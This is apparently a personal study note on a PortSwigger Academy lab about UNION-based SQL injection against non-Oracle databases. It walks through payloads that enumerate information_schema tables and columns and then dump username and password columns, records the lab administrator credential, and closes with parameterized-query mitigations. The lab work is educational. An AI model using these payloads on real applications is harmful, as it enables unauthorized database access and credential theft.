




---
tags:
  - web-security
  - sqli
  - portswigger-academy
  - database-metadata
  - non-oracle
date: 2026-06-30
status: Completed
---

# 💉 SQL Injection - Listing Database Contents (Non-Oracle)

## 🧠 Core Logical Mechanism (The "Why")
* **Definition:** Database metadata mapping allows an attacker to systematically discover the structure of an unknown database when table and column names are randomized or dynamically generated.
* **Syntax Commonalities:** Non-Oracle databases (such as PostgreSQL, MySQL, and MSSQL) conform to the SQL standard by providing a built-in schema called `information_schema`, which contains read-only views of all tables and columns within the database.
* **The Crucial Difference (Metadata Views):**
  * **Tables Catalog:** The view `information_schema.tables` contains a column named `table_name` that lists every table in the database.
  * **Columns Catalog:** The view `information_schema.columns` holds structural data, where `column_name` identifies the field and `table_name` specifies its parent table, allowing targeted filtering via a `WHERE` clause.

---

## 🛠️ Attack Vectors & Payloads

### Database Schema Discovery
* **Structure Probing:** `' ORDER BY 2--` *(Confirming column count and finding text-compatible inputs)*
* **Table Name Enumeration:** `' UNION SELECT table_name, NULL FROM information_schema.tables--`

### Target Table Enumeration
* **Column Name Extraction:** `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'TARGET_TABLE_NAME'--`
* **Data Exfiltration:** `' UNION SELECT TARGET_USER_COLUMN, TARGET_PASS_COLUMN FROM TARGET_TABLE_NAME--`

---

## 🧪 Completed Laboratories (PortSwigger)
### Lab: SQL injection attack, listing the database contents on non-Oracle databases
* **Objective:** Map the database schema using system views to identify the randomized user credentials table, extract the password for the `administrator` account, and log in successfully.
* **Methodology:**
  1. Determine the column count and data types returned by the query using `' ORDER BY X--` and `' UNION SELECT 'a', 'b'--`.
  2. Inject an attack payload against `information_schema.tables` to print out all available tables and isolate the hidden users table name.
  3. Filter `information_schema.columns` by the newly discovered table name to retrieve the explicit names of the username and password columns.
  4. Perform a final `UNION SELECT` extraction targeting those precise columns to retrieve the plaintext credentials from the database.

---

## 📸 Evidence / Flag
* **Target Exploitation Payload:** 
	* ```sql
	  ' UNION SELECT username_ruvhwt, password_zqkuus FROM users_eqdxjk--
		```

- **Extracted Credentials:** 
	* **User:** `administrator`
    - **Password:** `y8gsf95f9e44l61gsrnn`
        
- **Screenshots / Notes:**
    - Identifying the randomized table name in the schema using the `public` schema filter:
        - **Payload:** `' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = 'public'--`
	       * 
        
        - 💡 **PostgreSQL Architecture Note:** By default, PostgreSQL organizes databases into logical structures called "schemas". All user-defined tables created by developers for the application's functionality (such as products, users, etc.) are automatically stored inside the `public` schema. By applying the filter `WHERE table_schema = 'public'`, we force the database engine to ignore hundreds of internal system tables (such as those starting with `pg_` and `information_schema`), allowing us to isolate the target table immediately without cluttering the response with DBMS background noise.


    - Extracting randomized column fields from the target table (`users_eqdxjk`):
        
        - **Payload:** `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE TABLE_NAME = 'users_eqdxjk'--`
		* 


    - Retrieving the administrator flag and dumping plaintext credentials:
        
        - **Payload:** `' UNION SELECT username_ruvhwt, password_zqkuus FROM users_eqdxjk--`
        -  
		* 


---

## 🛡️ Defensive Mitigations
* **Remediation:** Implement robust parameterized queries (Prepared Statements) across all application endpoints to prevent untrusted input from modifying the intent of the SQL command execution logic. Restrict database account permissions according to the principle of least privilege to block unauthorized access to the `information_schema` catalogs.